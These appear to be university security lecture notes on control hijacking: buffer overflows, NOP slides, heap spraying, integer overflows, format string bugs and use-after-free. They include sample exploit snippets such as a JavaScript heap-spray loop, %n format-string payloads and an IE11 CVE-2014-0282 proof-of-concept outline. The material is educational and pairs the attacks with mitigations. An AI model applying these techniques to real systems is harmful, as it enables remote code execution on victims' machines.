

# Basic Control Hijacking Attacks

* Attacker's goal:
    - Take over target machine (e.g., web server)
    - Execute arbitrary code on target by hijacking application control flow
* Examples:
    - Buffer overflow and integer overflow attacks
    - Format string vulnerabilities
    - Use after free

## Buffer overflow attacks

* Extremely common in C/C++ programs
    - Now advised to avoid C/C++
    - Use Rust: typesystem should help avoid these bugs
* First major exploit: 1988 internet worm, bug in `fingerd`

What is needed:

* Attacker needs to know which CPU and OS used on the target machine
    - Examples are x86-64 running Linux or Windows (project is 32-bit)
    - Details vary slightly between CPUs and OSs
        - Stack frame structure (Unix vs. Windows, x86 vs. ARM)
        - Endianness

### Linux process memory layout (x86-64)



### Linux stack frame (x86-64)


### Review of buffer overflows

Suppose a web server contains the following function:

```c
void func(char *str) {
    char buf[128];
    strcpy(buf, str);
    do_something(buf);
}
```

After `strcpy`, stack looks like:


If `*str` is 144 bytes long, after `strcpy`, stack looks like:


### Basic stack exploit

Suppose `*str` is such that after `strcpy` looks like


where Program P is `exec("/bin/sh")`. This allows an attacker to run a shell on the webserver.

Note: attack code P runs *in stack*.

#### The NOP slide

Problem: how does attacker determine return address?

Solution: NOP slide

* Guess *approximate* state when `func()` is called
* Insert many NOPs before program P

```assembly
nop
xor eax, eax
inc ax
```


#### Details and examples

Complications:

* Program P should not contain the `\0` character
* Overflow should not crash program before `func()` exits

Famous remote stack smashing overflows:

* Overflow in Windows animated curosrs (ANI) - `LoadAniIcon()`
* Buffer overflow in Symantec virus detection (May 2016)
    - Overflow when parsing PE headers - kernel vuln

### Many unsafe libc functions

```c
strcpy(char *dest, const char *src);
strcat(char *dest, const char *src);
gets(char *s);
scanf(const char *format, ...);
...

```

"Safe" `libc` versions `strncpy`, `strncat` are misleading (e.g. `strncpy` may leave string unterminated)

Windows C runtime (CRT) ensures proper termination:

```c
strcpy_s(*dest, DestSize, *src);
```

### Buffer overflow exploit opportunities

* Exception handlers
    - Overwrite address of an exception handler in stack frame
    - Forces attacker's code to run instead of exception code when an exception executes
* Function pointers (e.g. PHP 4.0.2, MS MediaPlayer bitmaps)
    - Overflow buffer, attacker's code replaces address to function pointer and override it
* Longjmp buffers (`longjmp(pos)`, e.g. Perl 5.003)
    - Overflowing buffer next to `pos` overrides value of `pos`

### Heap exploits: corrupting virtual tables

C++ stores data elements of an object, first address in object points to virtual table, which contains pointers to the functions that use those objects


#### Example: exploiting browser heap

* Setting: malicious web server sends web page with exploit to requesting victim browser
* Attacker's goal is to infect browsers visiting the website
    - How: send javascript to browser that exploits a heap overflow

```html
<script type="text/javascript">
    shellcode = unescape("%u4343%u4343..."); // allocate in heap
    overflow_string = unescape("%u2332%u4276...");
    cause_overflow(overflow_string); // overflow buf[]
</script>
```

Problem: attacker does not know where browser places `shellcode` on the heap

Solution: Heap Spraying

1. Use Javascript to spray heap with shellcode and NOP slides
2. Then point vtable ptr anywhere in spray area


How this works in code:

```js
var nop = unescape("%u9090%u9090");
while (nop.length < 0x100000)
    nop += nop;

var shellcode = unescape("%u4343%u4343...");

var x = new Array();

for (var i = 0; i < 1000; i++)
    x[i] = nop + shellcode;
```

Pointing the function pointer almost anywhere in the heap will cause shellcode to execute.

### Ad-hoc heap overflow mitigations

* Better browser architecture
    - Store Javascript strings in a separate heap from browser heap
* OpenBSD and Windows 8 heap overflow protection
    - After each virtual memory page, the next page (address above) is an unallocated and unwriteable guard page
    - If buffer overflow crosses a page boundary, an access boundary is detected and the program crashes

### Finding overflows by fuzzing

* Run web server on local machine
* Use American Fuzzy Lop (AFL) to issue malformed request (ending with `$$$$$`)
    - Fuzzers: automated tools for this
* If web server crashes, search core dump for `$$$$$` to find overflow location
* Construct exploit (not easy given latest defenses)

## More control hijacking exploits

### Integer overflows

Problem: what happens when `int` exceeds max value?

```c
int m; // 32 bits
short s; // 16 bits
char c; // 8 bits

c = 0x80 + 0x80; // 128 + 128 = 0
s = 0xff80 + 0x80; // 0
m = 0xffffff80 + 0x80; // 0
```

Exploit example:

```c
void func(char *buf1, char *buf2, unsigned int len1, unsigned int len2) {
    char temp[256];
    if (len1 + len2 > 256) // length check
        return -1;
    memcpy(temp, buf1, len1);
    memcpy(temp + len1, buf2, len2); // concatenate buf
    do_something(temp);
}
```

If `len1 == 0x80` and `len2 == 0xffffff80`, then `len1 + len2 == 0`, so second `memcpy()` will overflow the heap!

To fix: use a length check like

```c
if (len1 > 256 || len2 > 256 || len1 + len2 > 256)
    return -1;
```

### Format string bugs

```c
int func(char *user) {
    fprintf(stderr, user);
}
```

Problem: what if `*user == "%s%s%s%s%s%s%s"`?

* Most likely: program will crash (denial of service)
* If not, program will print memory contents (privacy concerns)
* Full exploit using `user == "%n"` (print everything previously printed to `stdout`)

Correct form: `fprintf(stderr, "%s", user);`

Exploits:

* Dumping arbitrary memory
    - Walk up stack until desired pointer is found
    - `printf("%08x.%08x.%08x.%08x|%s|");`
    - `"%08x"`: move 8 bytes up the stack
* Writing to arbitrary memory
    - `printf("hello %n", &temp);` - writes '6' into `temp`
    - `printf("%08x.%08x.%08x.%08x.%n");`

### Use-after-free exploits

Constituted 36% of security vulnerabilities in Chrome 2015-2020

Example: IE11 CVE-2014-0282

```html
<form id="form">
    <textarea id="c1" name="a1" ></textarea>
    <input id="c2" type="text" name="a2” value="val">
</form>
<script>
    function changer() {
        document.getElementById("form").innerHTML = "";
        CollectGarbage(); // erase c1 and c2 fields
    }
    document.getElementById("c1").onpropertychange = changer;
    // loops on c1.DoReset() and c2.DoReset()
    document.getElementById("form").reset();
</script>
```

* `c1.doReset()` causes `changer()` to be called and free object `c2`
    - `c2` points to a vtable that points to `doSomething`, `doReset`, and `doSomethingElse`
* Suppose attacker allocates a string of same size as `vtable` containing ShellCode
    - When `c2.DoReset()` is called, attacker gets shell

The exploit:

```html
<form id="form">
    <textarea id="c1" name="a1" ></textarea>
    <input id="c2" type="text" name="a2” value="val">
</form>
<script>
    function changer() {
        document.getElementById("form").innerHTML = "";
        CollectGarbage(); // erase c1 and c2 fields

        // allocate string object to occupy vtable location
    }
    document.getElementById("c1").onpropertychange = changer;
    // loops on c1.DoReset() and c2.DoReset()
    document.getElementById("form").reset();
</script>
```